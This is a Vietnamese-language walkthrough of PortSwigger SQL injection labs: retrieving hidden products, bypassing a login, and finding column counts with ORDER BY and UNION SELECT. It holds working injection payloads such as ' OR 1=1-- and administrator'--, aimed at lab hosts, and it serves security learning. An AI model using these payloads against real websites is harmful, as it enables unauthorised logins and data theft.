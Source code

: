 # Portswigger SQL Injection
Hello mấy ní hôm nay cùng tìm hiểu SQL injection trên Portswigger nhé =)))). 
## SQL là gì?
Sql injection là một lỗ hổng bảo mật web ( web security vulnerability ) cho phép các hacker can thiệp vào các truy vấn mà application tạo ra để gửi đến các database của nó.
![image](https://github.com/user-attachments/assets/73811511-6f78-42c0-847d-3549dceaf451)  

### **Question: Vây các hacker có thể khai thác được gì từ SQLI?**
* Các hacker có thể xem những thông tin mà thông thường chúng ta không thể thấy được.
* Kẻ tấn công còn có thể thông qua đó mà chỉnh sửa và xóa đi các thông tin quan trọng trong database. 
* Kẻ tấn công có thể thông qua SQLI để leo thang các của tấn công của họ đến các máy chủ hay cơ sở hạng tầng khác.   
## Hậu quả các cuộc tấn công bằng SQL injection ?
Hậu quả của việc bị xâm phạm vào các thông tin nhạy cảm có thể là hậu quả của 1 cuộc tấn công bằng SQL Injection, trong đó các thông tin thường bị lộ là:
* Thông tin về tài chính như thẻ ngân hàng, thẻ ghi nợ.
* Thông tin cá nhân.
* Thông tin về tài khoản mật khẩu quan trọng như ví điện tử, mxh,... 

---
## LAB1: [Retrieving hidden data](https://https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-hidden-data/sql-injection/lab-retrieve-hidden-data). 

![image](https://github.com/user-attachments/assets/737429d1-bdf7-4988-bad3-8e5467b9169d)

Dựa theo yêu cầu đề bài chúng ta phải làm xuất hiện các sản phẩm chưa được công bố trong trang web. 
Câu lệnh truy vấn SQL là:
``` 
SELECT * FROM products WHERE category = 'Gifts' AND released =1 
```
Giải nghĩa: trả về thông tin sản phẩm khi 'category' là gifts và ```released = 1 ``` → nó chỉ hiện ra các sản phẩm thuộc gifts và đã được công bố.
Để khai thác ta có thể thêm vào URL của trang web từ 
```
https://0afe00b6047c270583e3fe7c00050033.web-security-academy.net/filter?category=Accessories
```
![image](https://github.com/user-attachments/assets/24fad3eb-8d20-40d6-9517-c1b2461effa3)  
bằng cách thêm vào '+OR+1=1--
```
https://0afe00b6047c270583e3fe7c00050033.web-security-academy.net/filter?category=Accessories'+OR+1=1--
```
![image](https://github.com/user-attachments/assets/784d1e02-b6a1-450b-ba39-da563dcdc297)  
Như ta thấy nó đã hiện ra các sản phẩm bị giấu đi. 
Giả sử như truy vấn ban đầu là: 
```linux
SELECT * FROM products WHERE category = 'Accessories';
```
sau khi chèn pay load vào thì nó trở thành:
```linux
SELECT * FROM products WHERE category = 'Accessories' OR 1=1--';
```
* OR 1=1: Luôn đúng → Kết quả trả về tất cả sản phẩm thay vì chỉ "Accessories".  
* --: Đây là dấu comment trong SQL, giúp bỏ qua phần còn lại của truy vấn, tránh lỗi cú pháp.  

---

## LAB2: Subverting application logic 
![image](https://github.com/user-attachments/assets/7700dc91-c5a7-495f-a405-eef8b753d3ac) 
Theo yêu cầu là phải đăng nhập với dữ liệu biết trước là có một tài khoản tồn tại trong database tên là "administrator". 
![image](https://github.com/user-attachments/assets/ca3cbbec-ba7c-4ebd-9174-49f15ada16cd)  
Đây là giao diện ban đầu của trang web, chúng ta cùng nhau đến trang đăng nhập nào.
![image](https://github.com/user-attachments/assets/6f634558-a75f-4c5d-9545-acdf230e5058)  
Vì đã biết là có một user tên 'adminstrator' nên ta sẽ bypass bằng cách nhập vào phần user "adminstrator'--"  
![image](https://github.com/user-attachments/assets/a08fa73b-1619-4336-bbe7-303f35138fb1)  
Chúng ta đã đăng nhập được vào tài khoản admin.    
Như ta biết lệnh truy vấn ban đầu khi ta đăng nhập sẽ là:
```sql=
SELECT * FROM users WHERE username = 'username' AND password = 'password';
```  
nên nếu ta chèn thêm ```adminstrator'--``` vào truy vấn sẽ trở thành:
```sql=
SELECT * FROM users WHERE username = 'administrator'--' AND password = '';
```
chương trình sẽ hiểu là bỏ qua mật khẩu và sẽ đăng nhập thành công với tên người dùng hợp lệ.   

---

## SQL injection UNION attacks
```**Union**: là một lệnh trong sql cho phép kết hợp giá trị trả về của 2 hay nhiều truy vấn *SELECT* , sau đó trả về các bản ghi không bị trùng lập ( nếu trùng thì chỉ giữ lại 1 bản ghi).```
**Lưu ý:**
 * Số hàng, cột từ hai bảng được truy xuất phải giống nhau. 
 * Kiểu dữ liệu của từng cột phải hợp lệ với các truy vấn riêng lẻ. 
Do đó để bypass bằng UNION chúng ta cần lưu ý hai vấn đề:
* **```Số cột của 1 bảng.```**
* **```Kiểu dữ liệu ứng với truy vấn SELECT.```**
### Determining the number of columns required
Có **hai cách** hiệu quả để xác định số cột của 1 bảng:
Cách 1: ORDER BY: Chúng ta sử dụng lệnh ORDER BY và tăng dần số cột lên cho đến khi xảy ra lỗi. Chúng ta chèn vào:
```sql=
` ORDER BY 1--
` ORDER BY 2--
` ORDER BY 3--
etc.
```
Sau quá trình đó data base có thể trả về lỗi kiểu như: 
```sql=
The ORDER BY position number 3 is out of range of the number of items in the select list.
```
Cách 2: UNION SELECT: Chúng ta dùng lệnh UNION SELECT để xác định số cột bằng cách chèn vào:
```sql=
` UNION SELECT NULL--
` UNION SELECT NULL,NULL--
` UNION SELECT NULL,NULL,NULL--
etc.
``` 
lặp lại cho đến khi không có thông báo lỗi, dùng NULL vì trong SQL dữ liệu NULL có thể chuyển thành bất kì kiểu dữ liệu nào khác.
Ví dụ lệnh truy vấn ban đầu là: 
```sql=
SELECT id, username, password FROM users WHERE username='xxx';
```
thì sau khi chèn ``` `UNION SELECT NULL,NULL,NULL--``` nó trở thành"
```sql=
SELECT id, username, password FROM users WHERE username="xxx";
```
thì câu truy vấn trở thành:
```sql=
SELECT id, username, password FROM users WHERE username="xxx"  
UNION SELECT NULL, NULL, NULL;
```
từ đó ta biết số cột trong truy vấn SELECT là 3.
## LAB3: Lab: SQL injection UNION attack, determining the number of columns returned by the query.
![image](https://github.com/user-attachments/assets/8ea443f5-907e-4ffd-b43c-5c11da5f0af2)
Để giải lab này cần tìm đươc số cột của truy vấn. 
Trong bài này hãy sử dụng Burpsuite để modify các request gửi tới nhé.
### Sử dụng ORDER BY
Theo ý tưởng ban đầu về sử dụng ORDER BY là liên tục lặp lại và tăng dấn số cột truy vấn cho đến khi xảy ra lỗi. 
![image](https://github.com/user-attachments/assets/794be6c3-044b-4468-b17f-0769e6749645)
Đây là URL ban đầu:
```
https://0a5600a604328ef7814f935100e0009c.web-security-academy.net/filter?category=Gifts
```
Như đã thấy mình đang chọn filter cho category là gifts, sau đó mình sẽ chèn thử ```' ORDER BY 1--``` trước để thử.
```
https://0a5600a604328ef7814f935100e0009c.web-security-academy.net/filter?category=Gifts' ORDER BY 1--
```
![image](https://github.com/user-attachments/assets/7307e5a0-5b9c-4dec-ac9b-cd7edfbf07a3) 
Sau khi gửi Request thì không có gì xảy ra cho nên mình tiếp tục tăng số Column lên cho đến khi bằng 4 thì xảy ra lỗi 
![image](https://github.com/user-attachments/assets/7fb353a5-e1eb-46a2-b484-ebe5ab9353ad)
![image](https://github.com/user-attachments/assets/eb8676de-0e8f-4bc6-a8e3-d2a473ce51e5)  
Web xảy ra lỗi khi truy vấn số cột là 4 nên số cột cần tìm lã 3.  
### Sử dụng NULL.
Vì đã biết là số cột cần tìm là 3 nên mình mặc định chèn vào 3 giá trị NULL nhé:
```
GET /filter?category=Lifestyle' UNION SELECT NULL, NULL, NULL--
```
![image](https://github.com/user-attachments/assets/ba912490-e8ad-4b4c-b524-02ae0611927e)  
Sau khi gửi Request đi thì web đã báo mình hoàn thành bài lab.
![image](https://github.com/user-attachments/assets/90e6654a-500e-4429-9875-f3ac7a58c381) 
